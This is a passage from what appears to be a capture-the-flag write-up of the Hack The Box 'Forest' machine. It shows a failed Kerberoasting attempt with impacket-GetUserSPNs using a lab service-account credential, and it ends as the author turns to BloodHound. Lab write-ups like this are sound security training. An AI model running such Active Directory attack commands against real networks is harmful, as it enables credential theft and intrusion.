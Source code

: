 I got a shell, and found out that  `svc-alfresco` belongs to `Service Accounts`.

# Privesc to `Exchange Windows Permissions`

### Kerberoasting

Since we have a service account. I think it worths trying Kerberoasting attack.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ impacket-GetUserSPNs -request -dc-ip 10.10.10.161 htb.local/svc-alfresco:s3rvice
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

No entries found!
```

Unfortunately, it's not working..

### BloodHound

Let's collect more data with `BloodHound`.

![](attachments/forest_1.png)
